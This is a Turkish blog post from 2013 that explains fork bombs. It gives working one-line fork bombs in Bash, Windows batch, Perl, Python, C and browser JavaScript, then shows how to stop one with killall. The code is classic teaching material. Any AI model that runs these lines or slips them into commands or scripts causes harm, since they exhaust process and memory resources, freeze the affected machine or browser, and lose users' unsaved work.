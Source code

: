 ```yaml
---
layout: post
title: "Fork Bombasi"
date: 2013-09-26 12:55
comments: true
---
```

Fork bombası, bir prosesin kendini sürekli kopyalarak kullanılarbilir sistem kaynaklarını sömürmesi durumudur.
CPU ve RAM’i meşgul ederek bilgisayarınızın donmasına neden olur. 
# Fork Bombası Nasıl Yapılır ?

Unix türevi bir işletim sistemi kullanıyorsanız, fork sistem çağrısını kullanararak bir fork bombası yapabilirsiniz.
fork fonksiyonu bulunduğu prosesin bir kopyasını oluşturur. exec fonksiyonu ilede o kopya prosese isteğiniz bir programı gömebilirsiniz.
Eğer siz fonksiyonu sonsuz döngüye sokup sürekli kendini kopyalamasını sağlarsınız elinizde nur topu gibi bir fork bombanız olur.
Çeşitli dillerde gerçekleme yapabilirsiniz. Bir kaç örnek vermek gerekirse:

## Bash

```bash
:(){ :|:& };:

```

## Windows Batch

```bash
:s
start "" %0
goto s

```
## Perl

```perl
perl -e "fork while fork" &
```

## Pyhton

```python
import os
while os.fork() or True: os.fork()

```

## C

```c
#include <unistd.h>
int main()
{
    while(1)
    fork();
}
```

## Javascript

```javascript
<script>
     while (true) {
     var w = window.open();
     w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
     }
</script>

```

## Etkisiz Hale Getirme

Yapıları yüzünden fork bombaları çalışmaya başlayınca durdurması zordur. Eğer şanslıysanız PID’ler bitmeden durdurabilirsiniz. Örnek olarak bash scripti alalım:

```bash
bomb() {
    bomb | bomb &
};
bomb
```

Yukardaki betik öz yineli şekilde kendi kopyasını üretiyor ve ampersan operatöründen dolayı bunu arka planda yapıyor. Eğer prosesin adını biliyorsak önce dondurup sonra da bütün çocuk ve ebeveyn prosesleri öldürürüz yani:

	killall -STOP prosesAdi
	killall -KILL prosesAdi

 Eğer boş PID kalmamışsa bombayı durdurmak için en az bir shell açık olmalıdır. Unix tabanlı sistemlerde her prosesin bir PIDsi vardır. Ama bu sınırlı bir rakamdır. Fork bombası PIDleri doldurursa onu durdurmak içim bir shell açamazsınız daha doğrusu yeni bir proses oluşturamazsınız. Bu durumda en az bir shell açık olmalıdır.
kaynak:wikipedia
